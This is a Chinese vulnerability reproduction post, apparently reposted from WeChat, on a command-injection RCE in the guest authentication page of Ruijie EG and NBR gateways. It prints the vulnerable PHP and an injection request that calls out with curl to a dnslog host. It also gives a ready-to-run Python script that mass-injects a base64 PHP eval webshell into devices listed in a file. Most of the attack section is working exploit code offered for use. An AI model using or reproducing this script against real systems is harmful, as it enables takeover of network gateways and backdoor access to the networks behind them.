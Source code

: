 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/8ZK3lWpwjNzo8eXsF_Swsw)

漏洞描述
----

锐捷部分网关产品 Eweb 管理系统存在代码执行漏洞，攻击者利用前端代码获得访问权限或者在设备上有开启访客认证功能（部分版本存在）、本地服务器认证功能、投屏服务功能时，可对设备进行攻击。护网的时候很火的一个漏洞，复现的有点晚了

漏洞编号
----

*   CNVD-C-2021-12252
    
*   CNVD-C-2021-08674
    
*   CNVD-C-2021-09953
    
*   CNVD-2021-09512
    
*   CNVD-2021-09650
    
*   CNVD-2021-21527
    

利用类型
----

远程

漏洞分类
----

*   网管
    
*   linux
    

适用版本
----

网关产品的 11.1(6)B21 及之后版本存在此问题。

<table width="660"><thead><tr><th><strong>NBR*</strong>* 系列 **</th><th>NBR108G-P、NBR1000G-E、NBR1300G-E、NBR1700G-E、NBR2100G-E、NBR2500D-E、NBR3000D-E、NBR6120-E、NBR6135-E、NBR6205-E、NBR6210-E、NBR6215-E、NBR800G、NBR950G、NBR1000G-C/NBR2000G-C/NBR3000G-S</th></tr></thead><tbody><tr><td><strong>EG*</strong>* 系列 **</td><td>RG-EG1000C、RG-EG2000F、RG-EG2000K、RG-EG2000L、RG-EG2000CE、 RG-EG2000SE、RG-EG2000GE、RG-EG2000XE、RG-EG2000UE、RG-EG3000CE、RG-EG3000SE、RG-EG3000GE、RG-EG3000ME、RG-EG3000UE、RG-EG3000XE、RG-EG2100-P、EG3210、EG3220、EG3230、EG3250</td></tr></tbody></table>

标签
--

*   Linux
    
*   RCE
    

发布日期
----

2021.01

漏洞等级
----

高危

漏洞原理
----

guestIsUp.php

```
<?php
  //查询用户是否上线了
  $userip = @$_POST['ip'];
  $usermac = @$_POST['mac'];
   
  if (!$userip || !$usermac) {
      exit;
  }
  /* 判断该用户是否已经放行 */
  $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
  $res = exec($cmd, $out, $status);
  /* 如果已经上线成功 */
  if (strstr($out[0], "status:1")) {
      echo 'true';
  }
?>
```

```
POST /guest_auth/guestIsUp.php HTTP/1.1
Host: 192.168.10.1
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 56


mac=1&ip=127.0.0.1|curl xxx.dnslog.cn
```

简单的命令执行绕过

漏洞利用
----

### 利用脚本

```
import requests
import sys
import urllib3
import random
urllib3.disable_warnings()

def main(targets):
  ua = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36'
  header = {
      "user-agent":ua
  }
  shellcontent = "PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==" # cat shell.php | base64
  # shellcontent = "PD9waHAgcGhwaW5mbygpOz8+"
  with open(targets) as f:
      for target in f.readlines():
          target = target.strip()
          url = target + "/guest_auth/guestIsUp.php"
          shellname = str(random.randrange(8888,9999))+'.php'
          data = 'ip=127.0.0.1|echo "'+shellcontent+'"|base64 -d > '+shellname+'&mac=00-00'
          try:
              requests.post(url,data=data,headers= {"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8","user-agent":ua},verify=False,timeout=5)
          except:
              #print("timeout")
              continue
          url = target + '/guest_auth/'+shellname
          if(requests.get(url,headers=header,verify=False).status_code==200):
              print(url)
          else:
              pass
              print("fail")
              # fail
if __name__ == "__main__":
  if(len(sys.argv)==2):
      targets = sys.argv[1]
      main(targets)
  else:
      print("usage: python3 eg.py urls.txt")
```

### 利用方法

```
python3 eg.py urls.txt
```

### 利用过程

![](https://mmbiz.qpic.cn/mmbiz_png/qjS1tDsz9MUl5YJGLW2cxas4D0sD9nlvLJHetPIyYJibtCMQBxJn5geApHg63FFWV1FxlJGxFgicW1jwGOM4ib5Xw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/qjS1tDsz9MUl5YJGLW2cxas4D0sD9nlvxLPgPtaDpNU1bgQnt4kCI4GzcMlnA1LXKgdxhVNkm3LZibuBQSBHOFg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/qjS1tDsz9MUl5YJGLW2cxas4D0sD9nlvAEPbzKZqsghxFxlHmNDbibhO8nAMorVX0knGl7yJ6aicCjJia3guCACFw/640?wx_fmt=png)

参考链接
----

*   https://www.seebug.org/vuldb/ssvid-99106
    
*   https://github.com/heikanet/EgGateWayGetShell